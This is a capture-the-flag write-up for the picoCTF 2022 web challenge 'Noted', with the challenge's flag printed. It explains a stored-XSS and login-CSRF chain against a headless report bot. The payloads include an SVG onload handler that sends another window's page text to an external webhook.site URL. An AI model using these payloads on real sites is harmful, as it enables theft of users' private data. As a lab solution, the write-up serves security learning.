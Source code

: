   # picoCTF2022: Noted

![Contest Date: 15.03.2022](https://img.shields.io/badge/Contest%20Date-15.03.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Score: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

> I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.




## Attached Files

- noted.tar.gz

## Flag

```
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
```

## Detailed Solution

After looking at the source, it seems that this is a website that allows users to create an account, login, and then (upon login) create notes. The notes seem to be visible only to the logged in user and not accessible through some URL. Furthermore, in report.js, the following lines of code suggest that the flag is stored in a note of the puppeteer bot.

```js

		await page.goto('http://0.0.0.0:8080/new');
		await page.type('[name="title"]', 'flag');
		await page.type('[name="content"]', process.env.FLAG ?? 'ctf{flag}');
  ```
  

We can start by looking through similar past web exploit challenges and writeups that involved note taking apps. After searching online for these, we can get some results such as [TBDXSS](https://ctftime.org/task/17592) and [XSS On Other Domain](https://www.youtube.com/watch?v=9ecv6ILXrZo). Given these results, XSS seems to be the way to go, but we need to first see if the website is vulnerable to it. To do so, we first create an account and enter in a sample test payload in our notes such as
```js
  <script>alert(1)</script>
```
Putting this in Notes, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.39.01%20PM.png)</p>

We get, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.43.57%20PM.png)</p>

This confirms that the website is vulnerable to XSS. Now we need a payload that the puppeteer bot will run and yield the note with the flag. Our initial plan was to fetch the notes of the bot by 

```
1) using the `fetch()` JS command 
2) sending the response of 1) to our webhook which would yield the flag
```

However, this did not work. After a lot of Googling, this is a common setback in many XSS challenges and is caused by the CORS policy being disabled. At this point, we tried searching up CORS Bypass and came up with following: [Hacktricks](https://book.hacktricks.xyz/pentesting-web/cors-bypass) and [Medium](https://medium.com/the-crazy-coder/a-comprehensive-understanding-of-cors-all-frontend-developers-better-to-have-3ae46d35f19e). After reaching a dead-end with the CORS bypass, we switched tracks by looking back at [TDXSS] and [XSS On Other Domain] and saw that we can use an iframe/window to have the bot's notes open while we login to our account to do XSS in parallel. It helps us that we automatically go to the user's notes after logging in. 

So here, we wondered if it would be possible to somehow access the window we had opened before logging in? After some testing and searching up how window onjects work, it turned out YES! We can access that window that we opened and keep it open as we login. Then the XSS can access the previously opened page's content because of same-origin policy. 

So now putting these steps together, 
```
1) We first open a window of the bot's notes 
2) We can login with our temporary user 
3) Do XSS and gain access to our temporary user's notes 
4) Open our previously opened window of the bot's notes which we can then send to our webhook as a GET request, where we can get the flag.
``` 
Now that we have the plan, it's time to implement this and put it together. We can start off with the code we're going to inject in the Report function. To login as our user, we can use the <form> and <input> tags, with them put together as

```html
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
```

Then we want want to open up a window, with the bots notes and submit the form. To open up a window we can use `window.open()`, and to submit the form we can use ``setTimeout(`WebsiteForm.submit(), 1000`)``. Putting this together, we get 

```html
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1');setTimeout(`WebsiteForm.submit()`)</script>
```

We also have to put this with data:text/html, so we actually get

```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1');setTimeout(`WebsiteForm.submit()`)</script>
```

Now we need to create the XSS we will use in our notes of the temporary user. So searching this up [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting), we can abuse some html tag. I chose to abuse the <svg tag, but you can use anything. Now, we want to open the window that has the bot's notes, and somehow send it to our webhook. After thinking about it, I realized that I can put it in the request itself, by putting the url of the webhook, and concatenating it with the note text. Putting this together we get,

```html
<svg onload="window.location='https://webhook.site/5ca98311-0281-432a-a3f7-6ebd23deb0dc/'+window.open('', 'window1').document.body.textContent">
```

Now we have our full payload, which *might* work. Let's try it out!

Putting our payload in our temporary user's notes: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.02.11%20PM.png)</p>

Putting our payload in the Report function: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.04.06%20PM.png)</p>
  
Webhook Request: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.05.36%20PM.png)

Url Decoding: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.07.43%20PM.png)
 
That's our flag! That's all for the writeup for Noted.
